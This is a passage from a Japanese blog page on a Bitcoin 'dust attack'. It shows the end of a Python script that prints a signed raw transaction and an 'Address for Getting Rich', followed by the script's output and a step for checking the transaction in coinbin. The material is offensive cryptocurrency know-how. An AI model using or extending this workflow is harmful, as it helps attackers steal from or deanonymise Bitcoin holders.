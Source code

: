 print("\n--------------------------------------\n")
print("My work Bitcoin Address:  " + pk.address())
print("Address for Getting Rich: " + send_dust)
print("\n--------------------------------------\n")
print(tx_in._script_pubkey)
print(tx_in.script_sig)
print("\n--------------------------------------\n")
print("RawTX for performing isomorphism:")
print(tx.serialize().hex())
print("\n--------------------------------------\n")</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2 class="wp-block-heading">結果：</h2>



<pre class="wp-block-code"><code>--------------------------------------

My work Bitcoin Address:  1AK4LYE6PYwBmSYHQX3v2UsXXHTvCAsJeK
Address for Getting Rich: 14RKFqH45xYPMpW4KQ28RB6XtrZ8XpEM5i

--------------------------------------

OP_DUP OP_HASH160 b'2581997c24562e316ffa3163e63d2db26442cc9a' OP_EQUALVERIFY OP_CHECKSIG 
b'304402203b2c7941c858d201ac384029e88c9988f6baa433d061eacb765caa356d6e1a7e02203885dd1be0e8a5b0890dde12674c508608f0c60872a4acbc5fb3b9fd1978d916' b'02fbc210b54bdb4c48143a15cfd50a3e101d15a7dbb814c3804efc4b4782f45a5a' 

--------------------------------------

RawTX for performing isomorphism:
0200000001c593d1502ece362f78bcdabe8e250cb2e9cfcad5149a3dde781f33d42d3c250b010000006a47304402203b2c7941c858d201ac384029e88c9988f6baa433d061eacb765caa356d6e1a7e02203885dd1be0e8a5b0890dde12674c508608f0c60872a4acbc5fb3b9fd1978d916012102fbc210b54bdb4c48143a15cfd50a3e101d15a7dbb814c3804efc4b4782f45a5afdffffff022b020000000000001976a9142581997c24562e316ffa3163e63d2db26442cc9a88ac4d832a00000000001976a914662367a3d78a4b0fcbb3020b3d724981d10934f688acd9530800

--------------------------------------
</code></pre>



<figure class="wp-block-embed is-type-rich"><div class="wp-block-embed__wrapper">
https://www.youtube.com/embed/qhNU-7g4sAU?si=ZoZrij7Tw7tiNsRP
</div></figure>



<p><a href="https://cryptodeep.ru/doc/gif/dustattack/004createraw.gif" target="_blank" rel="noreferrer noopener"><em>gif コンテンツ</em>&nbsp;<em>#04.1へのリンク</em></a></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<blockquote class="wp-block-quote">
<p><strong>RawTX</strong>ダスト トランザクションを受信しました。次に、&nbsp;<strong><a href="https://coinbin.ru/#verify" target="_blank" rel="noreferrer noopener">「トランザクションの検証」</a></strong>セクションに移動して&nbsp;、トランザクションが適切に作成されたことを確認します。<strong>RawTX</strong>をコピーし、&nbsp;<strong><a href="https://coinbin.ru/#verify" target="_blank" rel="noreferrer noopener">「トランザクションとその他のスクリプトの検証」</a></strong>入力フィールドに貼り付けます。<strong><a href="https://coinbin.ru/#verify" target="_blank" rel="noreferrer noopener"></a></strong></p>
</blockquote>

